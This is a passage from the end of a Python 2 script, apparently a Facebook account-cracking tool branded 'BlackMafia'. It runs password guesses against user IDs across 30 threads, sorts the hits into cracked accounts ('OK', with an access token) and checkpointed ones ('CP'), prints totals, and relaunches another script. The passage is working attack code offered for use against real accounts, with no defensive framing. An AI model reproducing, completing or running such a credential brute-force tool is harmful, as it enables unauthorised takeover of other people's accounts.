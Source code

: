 			                                        k=json.load(dt)

			                                        if 'www.facebook.com' in k['error_msg']:

			                                            print(S+'[CP] ♡ '+user+' ♡ '+ps6)

			                                            cps.append(user+ps6)

			                                        else:

			                                            if 'access_token' in k:

			                                                print(G+'[OK] ♡ '+user+' ♡ '+ps6)

			                                                oks.append(user+ps6)

		except:

			pass

	p=ThreadPool(30)

	p.map(main, id)

	print

	print(S+50*'-')

	print

	print(S+'Process has been completed CP ID Open After 7 Days ')

	print(Y+'Total '+G+'OK'+S+'/'+P+'CP'+S+' = '+G+str(len(oks))+S+'/'+R+str(len(cps)))

	print(S+'BlackMafia')     

	print

	raw_input(R + 'Back')

	os.system('python2 Sohag.py')

if __name__=='__main__':

    login()

